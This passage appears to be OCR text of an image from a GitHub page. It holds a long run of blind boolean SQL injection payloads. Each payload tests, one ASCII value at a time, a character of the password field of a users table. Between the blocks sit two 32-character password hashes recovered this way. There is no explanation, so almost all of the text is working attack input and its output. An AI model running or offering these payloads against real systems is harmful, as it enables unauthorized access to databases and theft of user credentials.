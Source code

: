 1' and ascii(substr((select password from users limit 1 offset 0),29))=99# 
1' and ascii(substr((select password from users limit 1 offset 0),30))=102# 
1' and ascii(substr((select password from users limit 1 offset 0),31))=57# 
1' and ascii(substr((select password from users limit 1 offset 0),32))=57#

e99a18c428cb38d5f260853678922e03

1' and ascii(substr((select password from users limit 1 offset 1),1))=101#
1' and ascii(substr((select password from users limit 1 offset 1),2))=57#
1' and ascii(substr((select password from users limit 1 offset 1),3))=57#
1' and ascii(substr((select password from users limit 1 offset 1),4))=97#
1' and ascii(substr((select password from users limit 1 offset 1),5))=49#
1' and ascii(substr((select password from users limit 1 offset 1),6))=56#
1' and ascii(substr((select password from users limit 1 offset 1),7))=99# 
1' and ascii(substr((select password from users limit 1 offset 1),8))=52#
1' and ascii(substr((select password from users limit 1 offset 1),9))=50#
1' and ascii(substr((select password from users limit 1 offset 1),10))=56#
1' and ascii(substr((select password from users limit 1 offset 1),11))=99#
1' and ascii(substr((select password from users limit 1 offset 1),12))=98#
1' and ascii(substr((select password from users limit 1 offset 1),13))=51#
1' and ascii(substr((select password from users limit 1 offset 1),14))=56#
1' and ascii(substr((select password from users limit 1 offset 1),15))=100#
1' and ascii(substr((select password from users limit 1 offset 1),16))=53#
1' and ascii(substr((select password from users limit 1 offset 1),17))=102#
1' and ascii(substr((select password from users limit 1 offset 1),18))=50#
1' and ascii(substr((select password from users limit 1 offset 1),19))=54#
1' and ascii(substr((select password from users limit 1 offset 1),20))=48#
1' and ascii(substr((select password from users limit 1 offset 1),21))=56#
1' and ascii(substr((select password from users limit 1 offset 1),22))=53#
1' and ascii(substr((select password from users limit 1 offset 1),23))=51#
1' and ascii(substr((select password from users limit 1 offset 1),24))=54#
1' and ascii(substr((select password from users limit 1 offset 1),25))=55#
1' and ascii(substr((select password from users limit 1 offset 1),26))=56#
1' and ascii(substr((select password from users limit 1 offset 1),27))=57#
1' and ascii(substr((select password from users limit 1 offset 1),28))=50#
1' and ascii(substr((select password from users limit 1 offset 1),29))=50#
1' and ascii(substr((select password from users limit 1 offset 1),30))=101#
1' and ascii(substr((select password from users limit 1 offset 1),31))=48#
1' and ascii(substr((select password from users limit 1 offset 1),32))=51#

8d3533d75ae2c3966d7e0d4fcc69216b

1' and ascii(substr((select password from users limit 1 offset 2),1))=56#
1' and ascii(substr((select password from users limit 1 offset 2),2))=100#
1' and ascii(substr((select password from users limit 1 offset 2),3))=51#
1' and ascii(substr((select password from users limit 1 offset 2),4))=53#
1' and ascii(substr((select password from users limit 1 offset 2),5))=51#
1' and ascii(substr((select password from users limit 1 offset 2),6))=51#
1' and ascii(substr((select password from users limit 1 offset 2),7))=100#
1' and ascii(substr((select password from users limit 1 offset 2),8))=55#
1' and ascii(substr((select password from users limit 1 offset 2),9))=53#
1' and ascii(substr((select password from users limit 1 offset 2),10))=97#
1' and ascii(substr((select password from users limit 1 offset 2),11))=101#
1' and ascii(substr((select password from users limit 1 offset 2),12))=50#
1' and ascii(substr((select password from users limit 1 offset 2),13))=99#
1' and ascii(substr((select password from users limit 1 offset 2),14))=51#
1' and ascii(substr((select password from users limit 1 offset 2),15))=57#
1' and ascii(substr((select password from users limit 1 offset 2),16))=54#
1' and ascii(substr((select password from users limit 1 offset 2),17))=54#
1' and ascii(substr((select password from users limit 1 offset 2),18))=100#
1' and ascii(substr((select password from users limit 1 offset 2),19))=55#
1' and ascii(substr((select password from users limit 1 offset 2),20))=101#
1' and ascii(substr((select password from users limit 1 offset 2),21))=48#
1' and ascii(substr((select password from users limit 1 offset 2),22))=100#
1' and ascii(substr((select password from users limit 1 offset 2),23))=52#